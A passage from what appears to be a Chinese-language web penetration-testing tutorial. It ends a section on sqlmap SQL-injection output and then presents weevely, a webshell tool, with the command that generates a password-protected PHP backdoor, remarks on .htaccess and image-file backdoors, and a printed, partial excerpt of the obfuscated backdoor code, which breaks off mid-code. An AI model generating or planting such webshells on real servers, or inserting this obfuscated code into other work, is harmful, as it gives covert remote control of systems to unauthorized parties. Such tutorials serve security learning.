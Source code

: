 ```
| ROUTINES                              |
| SCHEMATA                              |
| SCHEMA_PRIVILEGES                     |
| SESSION_STATUS                        |
| SESSION_VARIABLES                     |
| STATISTICS                            |
| TABLES                                |
| TABLE_CONSTRAINTS                     |
| TABLE_PRIVILEGES                      |
| TRIGGERS                              |
| USER_PRIVILEGES                       |
| VIEWS                                 |
+---------------------------------------+
```
其它参数的使用都可不同程度获取到与手工注入SQL相同的信息。

一番尝试下来，sqlmap的功能还是很强大的。

## 6. 高级webshell一例
* weevely

    weevely：一款使用python编写的webshell工具，集webshell生成和连接于一身，采用c/s模式构建，可以算作是linux下的一款php菜刀替代工具，具有很好的隐蔽性（生成随机参数且base64加密）。
    ```
    # weevely -h
    usage: weevely [-h] {terminal,session,generate} ...

    positional arguments:
    {terminal,session,generate}
        terminal            Run terminal
        session             Recover an existant a session file
        generate            Generate a new password

    optional arguments:
    -h, --help            show this help message and exit
    ```
    * 自动生成后门.php文件

        在终端使用`weevely generate passwd backdoor.php`生成一个密码为`passwd`的后门文件并保存在当前目录中的backdoor.php。

        **注**：weeevely还可生成`.htaccess`后门、`.img`图片后门，不过都需要服务器开启.htaccess支持，因为该后门依赖于在.htaccess中使web服务器对图片文件进行php解析。
        
        [关于.htaccess文件](http://www.cnblogs.com/adforce/archive/2012/11/23/2784664.html)

        查看一下直接生成的后门.php文件
        ```
        leafpad /usr/share/weevely/backdoor.php
        ```
        ```php
        <?php
        $S='nts();<1ob_end_clean();$d=<1base6<14<1<1_encode(x(<1gzc<1o<1mpre<1ss($o),$k));print<1("<$k>$d<<1/$k<1>")<1;@session_d<1estroy();}}}}';
        $w='<1)<1;$q=array_values($q);<1preg_<1match_a<1<1ll("/([\\w]<1)[\\w-]+(?<1:;q=0.<1([\\d<1]))?,?<1/",<1$<1ra<1,$m);if($q&&$m<1){@';
        $H='m[2][<1$z]];if(s<1trpos<1($p,$h)==<1=0){$s[<1$i]<1="";$p=$ss<1($p,3)<1;}i<1f(a<1r<1ray<1_key_exists(<1$i,$s)){<1$s[$i].=';
        $r='s(m<1<1d5<1($<1i<1.$kh),0,3));$f=$sl($<1ss(md5($i.<1$<1kf),0,3));$p="";f<1or<1($z=1;$z<coun<1t(<1$<1m[1])<1<1;$z<1++)$p.=$q[$';
        $p='session_s<1t<1art()<1;$s<1=&$_SES<1SION;$ss="substr<1";$sl=<1"<1strtol<1ower"<1;$i=$m[1]<1[0].$<1m[1][1];$h<1=$sl(<1<1$s';
        $K='r($j=0<1;($j<$c&<1&$i<1<$l);$j++<1,$i++)<1{$o.=<1$t{<1$i}^$k<1<1{$j};<1}<1}return $o;}$r=$_<1S<1<1ERVER;$rr=@$r["HTTP_<1REFERE';